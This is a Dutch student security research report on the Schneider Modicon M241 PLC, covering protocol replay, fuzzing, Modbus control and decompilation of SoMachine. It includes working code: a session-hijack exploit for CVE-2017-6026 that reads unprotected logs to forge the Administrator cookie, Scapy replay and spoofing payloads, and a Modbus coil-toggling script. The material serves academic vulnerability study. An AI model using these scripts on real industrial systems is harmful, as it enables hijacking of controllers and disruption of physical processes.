

# Schneider M241 #

<style>td {min-width: 130px;}</style>


<div style="padding-top: 5cm;"></div>

Project door: Matti Bijnens, Remco Hofman, Stan van Wieringen

|                   |                                                 |
| ----------------- | ----------------------------------------------- |
| Afstudeerrichting | Computer & Cyber Crime Professional             |
| Module            | Project IV (CCCP)                               |
| Opdracht          | Onderzoeken naar zwakheden in de Schneider M241 |
| Lectoren          | Tijl Deneut, Hendrik Derre                      |
| Academiejaar      | 2018-2019                                       |

<!-- break -->
<div style="page-break-after: always;"></div>

## Woord vooraf ##

Voor dit security-project onderzoek kregen we de kans om met echte industriële hardware te werken. Meer specifiek hebben wij gewerkt met de Schneider Modicon M241 en de bijbehorende software. Dit verslag is het resultaat van ons onderzoek en bevindingen.

Graag danken wij onze lectoren voor het mogelijk maken van dit onderzoek en het ter beschikking stellen van de nodige apparatuur.

Dit document is geschreven in markdown.

Matti Bijnens, Remco Hofman, Stan van Wieringen

<!-- break -->
<div style="page-break-after: always;"></div>

## Samenvatting ##

Dit onderzoek beschrijft het zoeken en vinden van vulnerabilities in de Schneider Modicon M241 software. Meer specifiek gericht op zwakheden bij het flashen, programmeren en het sturen van commands naar de PLC via de "SoMachine" software.

Daarnaast is met behulp van Wireshark de communicatie tussen de PLC en SoMachine onderschept en zijn pogingen gedaan om het protocol te analyseren. Uiteindelijk was een van de conclusies dat er meerdere PLC's nodig zijn om hierin verder te geraken.

<!-- break -->
<div style="page-break-after: always;"></div>

## Inhoudsopgave ##

<!-- toc -->

- Introductie
- Verklarende woordenlijst
- Technische details
- Verderzetting onderzoek vorig jaar
- Protocol
  - SoMachine Protocol
    - Ping command
    - Discovery protocol
  - Modbus
- Decompilatie
- Action log
- Besluit
- Reflectie
  - Matti Bijnens
  - Remco Hofman
  - Stan van Wieringen
- Bronnen
- Tools
- Bijlagen
  - Trello
  - CookieCruncher-reloaded

<!-- tocstop -->

<!-- break -->
<div style="page-break-after: always;"></div>

## Introductie ##

Het ontwerpen en schrijven in Schneider's SoMachine software voor de besturing van industriële machines en installaties is goed en wel, maar heeft dit security risico's? De beveiliging van deze functies kan van levensbelang zijn. Als hackers bijvoorbeeld het stop-commando kunnen nabootsen, dan zou de productie stilgelegd kunnen worden.

Wij hebben de opdracht gekregen om onderzoek te doen op de software waarmee deze PLC geprogrammeerd wordt.
We hebben de Schneider Modicon M241 toegewezen gekregen en hebben de afgelopen maanden gespendeerd aan onderzoek op deze PLC.

<!-- break -->
<div style="page-break-after: always;"></div>

## Verklarende woordenlijst ##

| woord                       | betekenis |
|:--------------------------- | --------- |
| Cross site scripting attack | Een aanval waarbij we browser-code injecteren in een slachtoffer zijn browser. |
| PLC                         | Een programmable logic controller is een elektronisch apparaat met een microprocessor. In de industrie worden machines over het algemeen hiermee aangestuurd. Daarom zijn ze een belangrijk onderdeel in de automatisering.|
| POC                         | Proof-of-Concept, een demonstratie van de geldigheid van een idee. |
| Replay attack               | Een replay-aanval (ook bekend als afspeelaanval) is een vorm van netwerkaanval waarbij een geldige gegevensoverdracht kwaadwillig of frauduleus wordt herhaald of vertraagd. |
| SoMachine                   | De software-suite gebruikt voor het beheren / programmeren van Schneider PLCs |

## Technische details ##

- Prijs: $823
- Serie: Modicon M241
- Type: TM241CE40R
- Merk: Schneider Electric
- Software: SoMachine
- MAC: 00-80-F4-0B-24-E0
- Server: Wind River 4.8
- Standaard IP = 10.10.36.224
- De laatste 2 nummers van het IP zijn de decimale waarde van de laatste 2 hex bytes van het MAC-adres.


<!-- break -->
<div style="page-break-after: always;"></div>

## Verderzetting onderzoek vorig jaar ##

Vorig jaar werd een fout gevonden in de generatie van de sessiecookie.
In hun exploit werd gesteund op het feit dat via SNMP de opstarttijd van de PLC kon worden opgevraagd, echter hadden ze  daar een tiental requests voor nodig omdat die tijd niet accuraat was.

Vroeg in het bekijken van de web-interface van de M241 ontdekten we dat de logfiles onbeschermd waren en dat hier het exacte tijdstip in vermeld stond.

Als POC schreven we snel een kort shellscript om deze fout uit te buiten.

``` bash
#!/bin/bash

# Exploits CVE-2017-6026 to calculate the administrator's cookie from accessible log files.
# Usage: ./CVE-2017-6026.sh [ADDRESS]

echo "M258_LOG=Administrator:\
$(wget -qO- ${1}/usr/Syslog/PlcLog.txt\
| grep "Network interface * registered"\
| tail -n1\
| cut -d',' -f1)"
```

Als uitbreiding schreven we ook een Python script om cross-platform te werken. U kan deze code vinden in de bijlagen, gezien de grotere omvang van deze file. Uiteraard is het ook beschikbaar via Github.

Kort na het schrijven van deze scripts is op exploitdb een exploit van onze lector, Tijl Deneut, gepubliceerd. Ook zijn exploit maakt gebruik van de publiek leesbare logfiles om de sessiecookie te berekenen.

<!-- break -->
<div style="page-break-after: always;"></div>

## Protocol ##

### SoMachine Protocol ###

#### Ping command ####

In de officiële software van Schneider zit een functie om PLC's te identificeren door hun leds te laten knipperen.
Dit werkt door een pakketje te broadcasten naar het hele subnet.Hiervoor moet in de UDP data een stuk data zitten waarmee de PLC kan bepalen of het pakketje al dan niet voor hem bestemd is.
We hebben de data die naar onze PLC werd verstuurd opgevangen met Wireshark en via Scapy opnieuw verstuurd.  
Er zit geen bescherming tegen replay attacks op deze functie, waardoor men de PLC continu kan laten knipperen.

``` python
from scapy.all import *

payload = bytearray([
    0xcc, 0x85, 0x5b, 0x51, 0x08, 0x03, 0x55, 0x0f,
    0x6f, 0x79, 0x0d, 0x53, 0x47, 0x55, 0xc6, 0x14,
    0x04, 0x6d, 0x9e, 0x33, 0x6a, 0x75, 0x76, 0x6c,
    0xb9, 0xc2, 0x58, 0x40, 0x80, 0x72, 0x6e, 0x66,
    0xf6, 0x73, 0x2a, 0xdc, 0x62, 0x47, 0x58, 0x55,
    0x5a, 0x47, 0x59, 0x6c, 0x38
])

crafted = Ether(dst="ff:ff:ff:ff:ff:ff") /\
    IP(src="0.0.0.0", dst="255.255.255.255") /\
    UDP(sport=0, dport=27127) /\
    Raw(load=bytes(payload))

sendp(crafted, iface='enp0s31f6')
```

Helaas is het ons niet gelukt om te bepalen waar deze identifier juist zit in het pakket, noch om te bepalen waar deze juist wordt uitgestuurd door de PLC.  
Indien dit zou lukken zou een aanvaller identificatie van een PLC op de productievloer zeer moeilijk kunnen maken.

<!-- break -->
<div style="page-break-after: always;"></div>

#### Discovery protocol ####

Ook discovery werkt via een broadcast, de software stuurt een pakket met volgende UDP data als payload:

``` python
original = bytearray([
    0xba, 0xf3, 0x5b, 0x2f, 0x7e, 0x03, 0x75, 0x7d,
    0x6f, 0x0f, 0x29, 0x53,
    0x33,
    0b00100111,
    0xc6,
    0x37,
    0x72, 0x6d, 0x9f, 0x33, 0x6a, 0x75, 0x76, 0x6c,
    0xf9,
    0b10001000,
    0x50,
    0x40,
    0x80, 0x72, 0x61, 0x66,
    0xf6, 0x73, 0x2a, 0xdc, 0x53
])
```

Door te fuzzen hebben we een tweede payload kunnen maken waarop de PLC ook antwoordt.  
De 14<sup>de</sup> en 26<sup>ste</sup>  bytes hebben hier beiden een bitflip gekregen op hun 3<sup>de</sup>  bit, dus er lijkt een xor-gebaseerde checksum in het protocol te zitten.  
Het is niet duidelijk of er in de PLC intern een verschil wordt gemaakt omdat we niet weten wat deze bytes juist betekenen.

``` python
modified = bytearray([
    0xba, 0xf3, 0x5b, 0x2f, 0x7e, 0x03, 0x75, 0x7d,
    0x6f, 0x0f, 0x29, 0x53,
    0x33,
    0b00000111,  # Why does this work?
    0xc6,
    0x37,
    0x72, 0x6d, 0x9f, 0x33, 0x6a, 0x75, 0x76, 0x6c,
    0xf9,
    0b10101000,  # Why does this work?
    0x50,
    0x40,
    0x80, 0x72, 0x61, 0x66,
    0xf6, 0x73, 0x2a, 0xdc, 0x53
])
```

Het script dat we hebben gebruikt om te fuzzen is te vinden in bijlage en op Github.  
Indien er verder onderzoek op deze PLC gebeurt raden we aan om te zoeken naar de checksum die aanwezig moet zijn, de afstand van 96 lijkt niet willekeurig te zijn.

De PLC antwoordt met uitgebreide informatie:  
Model, projectnaam, IP, eventuele uitbreidingsmodule, tijd sinds opstarten, firmwareversie en naam.

Het is mogelijk om deze informatie opnieuw te versturen, en zo een 'ghost PLC' aan te maken.

``` python
# 1h28m04s
# data[25] = 0xa4 #164
# data[65] = 0x0b #12
# data[66] = 0x0f #16

# 2h58m41s
# data[25] = 0xa7 # 167
# data[65] = 0x04 # 4
# data[66] = 0x0a # 11

data = bytearray([
    0xba, 0xf3, 0x5b, 0x2f, 0x7e, 0x03, 0x75, 0x7d,  # 0-7
    0x6f, 0x0f, 0x29, 0x53, 0x33, 0x27, 0xc6, 0x37,  # 8-15
    0x72, 0x6d, 0x77, 0x30, 0x6a, 0x75, 0x75, 0x6c,  # 16-23
    0x6f,  # 24
    0xa7,  # 25 changes with time?
    0x0f,  # 26
    0x41,  # 27
    0x80, 0x72, 0x3d, 0x67,  # 28-31
    0xf6, 0x73, 0x2a, 0xdc, 0x63, 0x7d, 0x53, 0x5d,  # 32-39
    0x5a, 0x4d, 0x0f, 0x52, 0x02, 0x55, 0x12, 0x4d,  # 40-47
    0x5c, 0x52, 0x69, 0x0e, 0xc6, 0x65, 0x42, 0x31,  # 48-55
    0x84, 0x1c, 0x50, 0xc4, 0x84, 0x52, 0x63, 0x0d,  # 56-63
    0x0b,  # 64
    0x04,  # 65 changes with time?
    0x0a,  # 66 changes with time?
    0x5f,  # 67
    0x78, 0x58, 0x5b, 0x5b,
    0x53, 0xcc, 0x5f, 0x07, 0x43, 0x43, 0x00, 0x60,
    ...
    0xc8, 0x34, 0x04, 0x67, 0x19, 0x5f, 0x04, 0x10,
    0x7d, 0x6c
])
```

We hebben geprobeerd om deze informatie te manipuleren, maar dat is helaas niet gelukt.
Opvallend is dat op korte termijn slechts enkele bytes van waarde wisselden, maar op langere termijn de meeste bytes veranderden.
Mogelijk is een vorm van encryptie hier verantwoordelijk voor, maar dan moet de sleutel te vinden zijn in hetzelfde pakketje.
Indien we meer succes behaalden met het decompileren en onderzoeken van de officiële software waren we hier mogelijk iets wijzer in geworden.

<!-- break -->
<div style="page-break-after: always;"></div>

### Modbus ###

Bij het versturen van modbus commandos naar de PLC ontdekte we vreemd gedrag. Blijkbaar voert de PLC enkel modbus commandos uit als het in  **STOP mode** is. Daarnaast bleek uit de documentatie dat de PLC de write_coil function (5) niet ondersteund. Dit betekende dat we vele tools zoals mbtget niet konden gebruiken. Gelukkig ondersteunt de PLC de write_coils(15) functie wel. We hebben een kort scriptje geschreven dat de lampjes rij per rij laat flikkeren.

``` python
from pymodbus.client.sync import ModbusTcpClient
import time

client = ModbusTcpClient('172.20.3.40')
client.write_coil(1, True)
wait = 0.2
min = 4
max = 16
incr = 4
cur_relay = min
coil_amount=4
while True:
    client.write_coils(cur_relay, [True]*coil_amount)
    time.sleep(wait)
    client.write_coils(cur_relay, [False]*coil_amount)
    time.sleep(wait)
    cur_relay += incr
    if cur_relay >= max:
        cur_relay = min
```

<!-- break -->
<div style="page-break-after: always;"></div>

## Decompilatie ##

We kwamen er al redelijk snel achter dat de SoMachine software suite in .NET geschreven was.
Dankzij DotPeek (JetBrains) konden we op een zeer overzichtelijke manier naar de source code kijken.


Helaas wordt er constant naar andere DLL's gerefereerd in de code.
Hierdoor is het een hele opgave om tot de kern van een functie te komen. Een aantal van de DLL's hadden dezelfde filename als hun namespace. Hierdoor konden we ze makkelijk vinden op ons filesysteem.

<!-- break -->
<div style="page-break-after: always;"></div>

Eens een DLL is ingeladen en volledig gedecompileerd is, kan je door middel van een CTRL + Click steeds verdergaan in de code. Totdat je weer op een niet-ingeladen DLL stuit. Om dit probleem te verhelpen hebben we door middel van een script alle DLL's verzameld in 1 enkele map.

``` bash
find . -name '*.dll' -exec cp {} /home/matti/dlls \;
```

Nadien hebben we deze DLL's allemaal laten decompileren door DotPeek. Zoals te verwachten was, nam dit veel tijd in beslag.


Het navigeren door de code is veel handiger / sneller als je gewoon kunt doorclicken. Helaas waren er nog steeds stukken code die we niet gevonden hebben. Zo waren we specifiek op zoek naar de code die de UDP/TCP packets opbouwt. Dit zou ons veel hebben geholpen bij het reversen van het protocol.

Indien we nog extra tijd hadden voor het project hadden we hier graag meer tijd aan besteed. Spijtig genoeg was het te tijdrovend om door de code te gaan.

<!-- break -->
<div style="page-break-after: always;"></div>

## Action log ##

| datum            | log                                    |
|:---------------- |:-------------------------------------- |
| 18 oktober 2018  | Alle benodigde software geïnstalleerd. |
| 25 oktober 2018  | Licentie in orde gebracht en connectie gemaakt met de PLC. |
| 5 november 2018  | Voormiddag software & firmware updates laten runnen. De al reeds gevonden vulnerabilities uitgetest op de webinterface van de PLC. Logs kunnen bekeken worden zonder authenticatie.|
| 6 november 2018  | Met behulp van SoMachine een programma geschreven en op de PLC geflashed. (AtomBomb.proj, zie bijlage) |
| 7 november 2018  | Met Wireshark zoveel mogelijk ping-commando UDP packets gecaptured. Gelukt om een replay attack uit te voeren door de ping-commando pakketjes na te bootsen en hierdoor oneindig de lampjes van de PLC te laten knipperen. |
| 8 november 2018  | Onderzoek gedaan of het mogelijk is om het stop-commando te reverse engineeren. Gevonden dat de PLC enkel om de 9-10 seconden een antwoord verstuurd op een update-request broadcast. |
| 15 november 2018 | In SoMachine vonden we een optie om het programma op de PLC te verwijderen. Ook deze UDP-pakketjes hebben we gecaptured en proberen te ontcijferen. |
| 22 november 2018 | De hele dag proberen een replay attack te creëren van het stop-commando. |
| 29 november 2018 | Gelukt om de lampjes aan te spreken via Modbus. Werkt enkel als de PLC in "stop-mode" staat, niet in "run-mode". |
| 06 december 2018 | Op de web interface zagen we dat de configuratie-bestanden plain javascript zijn. Er dus een mogelijkheid tot een cross site scripting attack. |
| 13 december 2018 | Alle documentatie en notities verzameld om later te verwerken naar de finale documentatie. |
| 17 december 2018 | Finale documentatie gestart |
| 18 december 2018 | We hebben doorgewerkt aan de finale documentatie. |
| 19 december 2018 | We hebben doorgewerkt aan de finale documentatie. |
| 28 december 2018 | Eindverslag finaliseren. |
| 29 december 2018 | Eindverslag finaliseren. |
| 30 december 2018 | Eindverslag finaliseren. |

<!-- break -->
<div style="page-break-after: always;"></div>

## Besluit ##

Als we terugkijken op de afgelopen weken kunnen we besluiten dat het teamwerk tussen ons in orde was. Helaas hadden we teveel hooi op onze vork genomen. Ons eerste probleem dat we tegenkwamen was dat onze licentie niet aanvaard werd. Gelukkig werd dit probleem vlug opgelost door meneer Deneut (nogmaals bedankt hiervoor).

We begonnen met volle moed aan het reverse engineren van de protocollen maar stuitten op enorm veel struikelblokken. Het grootste obstakel was dat de PLC enkel een response pakketje stuurt om de tien seconden. Hierdoor verliep testen zeer traag.

We kunnen met zekerheid besluiten dat deze PLC een hele hoop beveiligingsmaatregelen ontbreekt. Zo wordt modbus ondersteund en is er een ernstige session-hijacking vulnerability in de web interface. We raden dan ook aan het netwerk waar de PLC zich in bevindt goed te beveiligen. Het netwerk waarin de PLC zich bevindt wordt best volledig afgesplitst van netwerken waarop gebruikersverkeer plaatsvindt.

Daarnaast is het sterk afgeraden om eender welke PLC te verbinden met het internet. Protocollen als modbus ondersteunen geen authenticatie en kunnen dus door eender wie worden bestuurd.

<!-- break -->
<div style="page-break-after: always;"></div>

## Reflectie ##

### Matti Bijnens ###

Ik ben pas in het midden van het project erbij gekomen. Voordien had ik aan een andere PLC gewerkt, maar door langdurige afwezigheid van mijn voormalige partner had ik besloten om mij bij deze groep aan te sluiten.

Ik had gekozen voor een project met een PLC omdat ik er nog geen kennis over had. Het leek me de perfecte opportuniteit om iets bij te leren. Helaas bleek het moeilijker dan verwacht om alles rond PLC's te verkennen. Voordien hadden we nog geen kennis over PLC's, we wisten nog niets over het programmeren ervan, de protocollen en uiteraard de beveiligings fouten.

Gelukkig kan ik op het einde van het project zeggen dat we enorm veel hebben bijgeleerd. Hoewel we niet echt nieuwe fouten hebben gevonden, vind ik dat we trots kunnen zijn op wat we hebben geprobeerd.

### Remco Hofman ###

We hebben dit project misschien te veel als 'hobbyproject' opgenomen in plaats van professioneel.

De hoeveelheid werk die we er hebben in gestopt komt niet overeen met wat er is uitgekomen, waarschijnlijk omdat we niet echt thuis waren in de wereld van PLC's en netwerkprotocol analyse.

Gelukkig hebben we uit dit project wel genoeg bijgeleerd, maar op vlak van projectmanagement zijn we niet het meest efficiënt geweest.

### Stan van Wieringen ###

We zijn het project gestart met veel motivatie. Aangezien we allemaal samen op hetzelfde kot zitten hadden we een goede werkplek om af te spreken. Na een aantal dagen met de PLC gewerkt te hebben zagen we dat dit project meer inspanning nodig had dan we op het eerste zicht dachten.

Ik ben zeer tevreden met de taakverdeling en het werken in team. Het zoeken naar mogelijke vulnerabilities in de software bleek echter geen eenvoudige taak te zijn. Dit is in eerste instantie toch het startpunt voor de verdere stappen in het onderzoek naar de kritieke kwetsbaarheden in de PLC. Ook zou het ter beschikking hebben van een tweede PLC enorm geholpen hebben om unique identifiers te vergelijken.

<!-- break -->
<div style="page-break-after: always;"></div>

## Bronnen ##

Word-document. Project S5: Industrial security 2017-18. Geraadpleegd op 18 oktober,  
*Niet publiek beschikbaar*

PDF. Modicon M241 Logic Controller, Hardware Guide. Geraadpleegd op 25 oktober,  
*[https://download.schneider-electric.com/files?p_enDocType=User+guide&p_File_Name=EIO0000001456.07.pdf&p_Doc_Ref=EIO0000001456](https://download.schneider-electric.com/files?p_enDocType=User+guide&p_File_Name=EIO0000001456.07.pdf&p_Doc_Ref=EIO0000001456)*

PDF. Modicon M241 Logic Controller, Programming Guide. Geraadpleegd op 25 oktober,  
*[https://download.schneider-electric.com/files?p_enDocType=User+guide&p_File_Name=EIO0000001432.07.pdf&p_Doc_Ref=EIO0000001432](https://download.schneider-electric.com/files?p_enDocType=User+guide&p_File_Name=EIO0000001432.07.pdf&p_Doc_Ref=EIO0000001432)*

Webpagina. Logic Controller - Modicon M241. Geraadpleegd op 25 oktober,  
*[https://www.schneider-electric.be/nl/product-range/62129-logic-controller---modicon-m241/](https://www.schneider-electric.be/nl/product-range/62129-logic-controller---modicon-m241/)*

PDF. Schneider - Modbus for machines with Modicon logic controllers. Geraadpleegd op 5 november,  
*[http://download.schneider-electric.com/files?p_enDocType=Catalog&p_File_Name=DIA3ED2160106EN.pdf&p_Doc_Ref=DIA3ED2160106EN](http://download.schneider-electric.com/files?p_enDocType=Catalog&p_File_Name=DIA3ED2160106EN.pdf&p_Doc_Ref=DIA3ED2160106EN)*

PDF. Schneider - Ethernet for machines. Geraadpleegd op 5 november,  
*[http://download.schneider-electric.com/files?p_enDocType=Catalog&p_File_Name=DIA3ED2160105EN.pdf&p_Doc_Ref=DIA3ED2160105EN](http://download.schneider-electric.com/files?p_enDocType=Catalog&p_File_Name=DIA3ED2160105EN.pdf&p_Doc_Ref=DIA3ED2160105EN)*

Github. CookieCruncher. Geraadpleegd op 5 november,  
*[https://github.com/DewitteNick/cookieCruncher](https://github.com/DewitteNick/cookieCruncher)*

Github. CVE-2017-6026-SessionHijack. Geraadpleegd op 5 november,  
*[https://github.com/tijldeneut/ICSSecurityScripts](https://github.com/tijldeneut/ICSSecurityScripts)*

Webpagina. Scapy documentation. Geraadpleegd op 6 november,  
*[https://scapy.readthedocs.io/en/latest/](https://scapy.readthedocs.io/en/latest/)*

Webpagina. Ladder logic. Geraadpleegd op 6 november,  
*[https://en.wikipedia.org/wiki/Ladder_logic](https://en.wikipedia.org/wiki/Ladder_logic)*

<!-- break -->
<div style="page-break-after: always;"></div>

## Tools ##

SoMachine
> SoMachine is software dat wordt gebruikt om de meeste Schneider-controllers te programmeren.

SNMP Bulkwalk
> snmpbulkwalk is een SNMP-toepassing die SNMP GETBULK-verzoeken gebruikt om efficiënt een netwerkentiteit voor een informatiestamboom te ondervragen.

Pymodbus
> Pymodbus is een Modbus-protocolimplementatie die gebruik maakt van twisted voor zijn asynchrone communicatiekern.

<!-- break -->
<div style="page-break-after: always;"></div>

## Bijlagen ##

### Trello ###



<!-- break -->
<div style="page-break-after: always;"></div>

### CookieCruncher-reloaded ###

``` python
#!/usr/bin/python3
import re
import sys
from urllib.request import urlretrieve
import urllib.error


def printhelp():
    helpmsg = 'USAGE: {} HOST\n\n  Version: 0.1\n  About: A tool to help exploit CVE-2017-6026\n'.format(
        sys.argv[0])
    print(helpmsg)


def findinterfaceregister(file: str = 'PlcLog.txt'):
    last = ''
    for line in open(file, 'r'):
        if re.search('Network interface <interface>USB</interface> registered', line):
            last = line
    return last


def getlogdate(line: str):
    return line.split(',')[0]


def buildcookie(t: str, user: str = 'Administrator'):
    return '{}:{}'.format(user, t)


def main():
    try:
        if sys.argv[1].lower() in ['-h', '--help']:
            printhelp()
            exit(1)
        url = 'http://{}/usr/Syslog/PlcLog.txt'.format(sys.argv[1])
    except (ValueError, IndexError):
        printhelp()
        exit(1)

    urlretrieve(url, 'PlcLog.txt')
    line = findinterfaceregister()
    t = getlogdate(line)
    print(buildcookie(t))


if __name__ == '__main__':
    main()
```